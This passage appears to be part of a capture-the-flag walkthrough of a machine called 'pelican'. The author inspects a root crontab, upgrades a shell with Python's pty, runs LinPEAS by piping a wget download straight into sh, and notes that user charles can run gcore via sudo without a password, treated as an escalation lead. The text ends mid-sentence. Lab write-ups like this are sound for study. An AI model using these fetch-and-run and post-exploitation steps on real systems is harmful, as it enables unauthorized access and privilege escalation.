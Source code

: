 ```
@reboot 	root	while true; do chown -R charles:charles /opt/zookeeper && chown -R charles:charles /opt/exhibitor && sleep 1; done
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

The `password-store` binary gets invoked on reboot. Also something running `chown` constantly against the `/opt/zookeeper` and `/opt/exhibitor` directories (recursively).

I set up a better shell because the one we have is trash:

```
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
charles@pelican:~$ 
```

I run LinPEAS just in case, don't want to miss anything...

```
charles@pelican:~$ which wget
which wget
/usr/bin/wget
charles@pelican:~$ wget -O- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

LinPEAS findings:

- LinPEAS also raises the `password-store` job as something to look at
- User `charles` can run `gcore`:

```
User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
Sudoers file: /etc/sudoers.d/charles is readable
charles ALL=(ALL) NOPASSWD:/usr/bin/gcore
```

--- 

We'll come back to this in a bit.

I noticed that if I reboot the `zookeper` server from the UI, I see some logs:
